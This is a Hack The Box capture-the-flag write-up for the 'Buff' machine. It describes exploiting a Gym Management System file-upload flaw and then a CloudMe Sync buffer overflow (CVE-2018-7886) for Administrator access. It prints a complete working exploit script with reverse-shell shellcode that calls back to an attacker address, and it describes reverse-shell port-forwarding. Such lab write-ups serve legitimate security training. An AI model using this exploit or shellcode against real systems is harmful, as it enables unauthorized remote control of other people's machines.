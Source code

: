 ```yaml
---
layout: single
title: Buff - Hack The Box
excerpt: "Buff is pretty straightforward: Use a public exploit against the Gym Management System, then get RCE. Do some port-forwarding, then use another exploit (buffer overflow against Cloudme Sync) to get Administrator access."
date: 2020-11-21
classes: wide
header:
  teaser: /assets/images/htb-writeup-buff/buff_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - buffer overflow
  - cve
  - windows
  - file upload
  - cloudme sync
---
```


![](/assets/images/htb-writeup-buff/buff_logo.png)

Buff is pretty straightforward: Use a public exploit against the Gym Management System, then get RCE. Do some port-forwarding, then use another exploit (buffer overflow against Cloudme Sync) to get Administrator access.

## Summary

- Use unauthenticated file upload vulnerability in Gym Management System 1.0 to get RCE
- Exploit a buffer overflow vulnerability in the CloudMe Sync application to get RCE as Administrator

## Portscan

![image-20200726162532670](/assets/images/htb-writeup-buff/image-20200726162532670.png)

## Website

There's a PHP web application running on port 8080 and it looks like it's a fitness/gym website.

![image-20200726161829858](/assets/images/htb-writeup-buff/image-20200726161829858.png)

![image-20200726162013695](/assets/images/htb-writeup-buff/image-20200726162013695.png)

![image-20200726162040519](/assets/images/htb-writeup-buff/image-20200726162040519.png)

![image-20200726162116526](/assets/images/htb-writeup-buff/image-20200726162116526.png)

The Contact page shows a possible software name / version which we'll look up on Exploit-DB.

![image-20200726162202199](/assets/images/htb-writeup-buff/image-20200726162202199.png)

Exploit-DB has a match for Gym Management System 1.0. At the bottom of every page on the website we see `projectworlds.in` so it's a fair guess that this is the software running this website.

![image-20200726162258198](/assets/images/htb-writeup-buff/image-20200726162258198.png)

Luckily for us, the exploit is unauthenticated and provides remote execution so we don't need anything else to get started.

```
# Exploit Title: Gym Management System 1.0 - Unauthenticated Remote Code Execution
# Exploit Author: Bobby Cooke
# Date: 2020-05-21
# Vendor Homepage: https://projectworlds.in/
# Software Link: https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/
# Version: 1.0
# Tested On: Windows 10 Pro 1909 (x64_86) + XAMPP 7.4.4
# Exploit Tested Using: Python 2.7.17
# Vulnerability Description: 
#   Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.
[...]
```

## Gym Management System exploitation

The exploit provides a nice pseudo-shell which is useful for looking around and running other commands. We can see our initial shell is running as user **Shaun** and that we can get the first flag.

![image-20200726162806589](/assets/images/htb-writeup-buff/image-20200726162806589.png)

## Priv esc

Checking the open ports on the machine, we see there's a MySQL instance running on port 3306 and something else running on port 8888.

![image-20200726163049549](/assets/images/htb-writeup-buff/image-20200726163049549.png)

On Exploit-DB we can find a few vulnerabilities for CloudMe Sync. I've highlighted the exploit I used. The CloudMe Sync software is not compiled with any of the protections enabled like ASLR and DEP so a good old buffer overflow with shellcode executable on the stack will work fine.

![image-20200726185742784](/assets/images/htb-writeup-buff/image-20200726185742784.png)

We'll need to do some port-forwarding to be able to reach port 8888 with our exploit. I could use plink or metasploit to do that but instead I'll use the https://github.com/xct/xc reverse shell tool. I'll transfer the tool with smbclient.py from impacket then rename it to contain my IP address and port. It's an optional feature of xc which is nice in case you can execute a file but can't pass any parameters to it.

![image-20200726184935454](/assets/images/htb-writeup-buff/image-20200726184935454.png)

After catching the reverse shell with xc, we'll use the `!portfwd` command to redirect port 8888 on our local machine to port 8888 on the remote box.

![image-20200726185112725](/assets/images/htb-writeup-buff/image-20200726185112725.png)

Next, we'll generate a shellcode that'll spawn a reverse shell. The output is in Python3 format (it contains the b before the string indicating it's a byte type). I'll clean that up and rename buf to shellcode and stick it in the downloaded exploit.

![image-20200726185959460](/assets/images/htb-writeup-buff/image-20200726185959460.png)

Final exploit shown below:

```python
#######################################################
# Exploit Title: Local Buffer Overflow on CloudMe Sync v1.11.0
# Date: 08.03.2018
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1110.exe
# Category: Local
# Exploit Discovery: Prasenjit Kanti Paul
# Web: http://hack2rule.wordpress.com/
# Version: 1.11.0
# Tested on: Windows 7 SP1 x86
# CVE: CVE-2018-7886
# Solution: Update CloudMe Sync to 1.11.2
#######################################################

#Disclosure Date: March 12, 2018
#Response Date: March 14, 2018
#Bug Fixed: April 12, 2018

# Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

import socket

target="127.0.0.1" 

junk="A"*1052

eip="\x7B\x8A\xA9\x68"		#68a98a7b : JMP ESP - Qt5Core.dll

shellcode =  ""
shellcode += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
shellcode += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
shellcode += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
shellcode += "\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
shellcode += "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x15\x68"
shellcode += "\x02\x00\x15\xb3\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
shellcode += "\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
shellcode += "\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
shellcode += "\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
shellcode += "\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
shellcode += "\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
shellcode += "\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
shellcode += "\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
shellcode += "\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
shellcode += "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

payload=junk+eip+shellcode

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
```

The exploit triggers the buffer overflow, executes our shellcode and spawn a reverse shell which we catch with a netcat listener.

![image-20200726190204674](/assets/images/htb-writeup-buff/image-20200726190204674.png)